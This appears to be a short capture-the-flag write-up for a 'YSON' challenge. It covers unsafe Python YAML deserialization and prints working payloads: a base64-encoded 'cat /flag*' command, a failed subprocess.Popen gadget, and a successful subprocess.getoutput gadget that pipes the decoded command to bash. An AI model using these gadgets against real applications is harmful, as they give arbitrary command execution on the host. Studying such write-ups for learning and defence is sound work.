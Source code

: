 ## YSON


### Unsafe yaml deserialization (python)

Craft base64 cmd

```bash
┌──(bravosec㉿fsociety)-[~/ctf/fetch-the-flag-2023]
└─$ echo 'cat /flag*'|base64
Y2F0IC9mbGFnKgo=
```

Can't do with `subprocess.Popen`

```bash
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - python
  - -c
  - "__import__('os').system(str(__import__('base64').b64decode('Y2F0IC9mbGFnKgo=').decode()))"
```

![](/assets/obsidian/d203de438f49de2f77d8184ab030f9d8.png){:target='_blank'}

Success with `subprocess.getoutput`

```bash
!!python/object/apply:subprocess.getoutput
  - echo Y2F0IC9mbGFnKgo= | base64 -d | bash
```

![](/assets/obsidian/1a6525bdb7d56164d356536affc4e7e8.png){:target='_blank'}
